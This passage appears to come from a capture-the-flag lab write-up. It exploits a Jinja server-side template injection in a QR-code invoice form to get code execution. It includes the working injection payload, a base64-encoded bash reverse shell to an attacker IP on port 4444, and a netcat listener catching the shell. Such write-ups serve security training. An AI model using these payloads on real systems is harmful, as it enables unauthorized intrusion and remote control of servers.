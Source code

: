 ```http
POST /QRGenerator?init=__init__&globals=__globals__ HTTP/1.1
```

Then, I could use those URL parameters in my payload.

{% raw %}
```
invoice_id=aaaa&form_type=scannable_invoice&qr_link={{namespace[request.args.init][request.args.globals]['os']['popen']('id').read()}}
```
{% endraw %}

I looked at the response, I had code execution.

```html
<div class="qr-code"><img src="data:image/png;base64,uid=33(www-data) gid=33(www-data) groups=33(www-data)" alt="QR Code"></div>
```

I built a reverse shell payload in base64.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.104/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTA0LzQ0NDQgMD4mMSAK
```

And I sent it to the server.

{% raw %}
```
invoice_id=aaaa&form_type=scannable_invoice&qr_link={{namespace[request.args.init][request.args.globals]['os']['popen']('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTA0LzQ0NDQgMD4mMSAK|base64 -d|bash').read()}}
```
{% endraw %}

I got the shell.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.104] from (UNKNOWN) [10.129.103.132] 49718
bash: cannot set terminal process group (1204): Inappropriate ioctl for device
bash: no job control in this shell

www-data@iclean:/opt/app$ whoami
whoami
www-data
```

## User consuela

I looked at the code for the website.

```bash
www-data@iclean:/opt/app$ ls
ls
app.py
static
templates
```

